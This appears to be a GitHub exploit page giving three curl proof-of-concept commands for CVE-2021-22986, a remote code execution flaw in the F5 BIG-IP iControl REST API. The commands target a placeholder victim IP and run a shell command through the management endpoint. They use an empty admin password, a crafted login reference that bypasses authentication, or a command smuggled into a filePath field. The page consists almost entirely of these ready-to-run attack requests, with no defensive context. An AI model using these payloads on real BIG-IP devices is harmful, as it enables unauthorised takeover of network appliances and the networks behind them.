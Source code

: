# (CVE-2021-22986) F5 BIG-IP iControl RCE
================

PoC #1

```bash
curl -su admin: -H "Content-Type: application/json" http://[victimIP]/mgmt/tm/util/bash -d '{"command":"run","utilCmdArgs":"-c id"}'
```

![](resource/(CVE-2021-22986)F5-BIG-IP-iControl-RCE/media/1.png)

PoC #2

```bash
curl -ks https://[victimIP]/mgmt/shared/authn/login -d '{"bigipAuthCookie":"","loginReference":{"link":"http://localhost/mgmt/tm/access/bundle-install-tasks"},"filePath":"`id`"}'
```

![](resource/(CVE-2021-22986)F5-BIG-IP-iControl-RCE/media/2.png)

PoC #3

```bash
curl -ksu admin:[redacted] https://[vimtimIP]/mgmt/tm/access/bundle-install-tasks -d '{"filePath":"id"}'
```

![](resource/(CVE-2021-22986)F5-BIG-IP-iControl-RCE/media/3.png)

`来源：https://twitter.com/wugeej/status/1372392693989445635`